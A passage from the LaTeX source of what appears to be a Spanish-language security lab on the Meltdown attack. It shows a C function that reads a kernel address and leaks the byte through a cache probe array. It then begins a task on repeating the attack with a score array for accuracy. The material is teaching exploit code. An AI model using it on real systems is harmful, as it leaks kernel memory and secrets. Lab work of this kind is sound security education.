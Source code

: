 \begin{lstlisting}[caption=\texttt{meltdown\_asm()}, label=meltdown:list:meltdown_asm]
void meltdown_asm(unsigned long kernel_data_addr)
{
   char kernel_data = 0;
   
   // Give eax register something to do
   asm volatile(
       ".rept 400;"                  (*@\ding{192}@*)
       "add $0x141, %%eax;"
       ".endr;"                      (*@\ding{193}@*)
    
       :
       :
       : "eax"
   ); 
    
   // The following statement will cause an exception
   kernel_data = *(char*)kernel_data_addr;  
   array[kernel_data * 4096 + DELTA] += 1;              
}
\end{lstlisting}

Por favor llame a la función \texttt{meltdown\_asm()} en vez de la función original  \texttt{meltdown()}. Describa sus observaciones. Incremente o decremente el número de loops y reporte sus resultados.




\section{Tarea 8: Haciendo el Ataque más Práctico}

Incluso con la optimización de la tarea anterior, es posible que aún no podamos
obtener el dato secreto: a veces, nuestro ataque obtendrá el dato correcto, pero a veces, nuestro ataque no lo hará y producirá un valor incorrecto.
Para mejorar la precisión, podemos usar una técnica estadística.
La idea es crear un arreglo de scores de un tamaño de 256, un elemento por cada posible valor secreto. Una vez hecho se correrá el ataque reiterada veces. Cada vez, si nuestro programa dea taque dice que el dato secreto es \texttt{k} (esto puede ser falso), agregamos 1 en \texttt{scores[k]}. Después de correr el ataque muchas veces, usamos el valor \texttt{k} que tenga el score más alto como nuestra estimación final en lugar de usar el obtenido en una sola corrida. El código de esta técnica es mostrado a continuación:


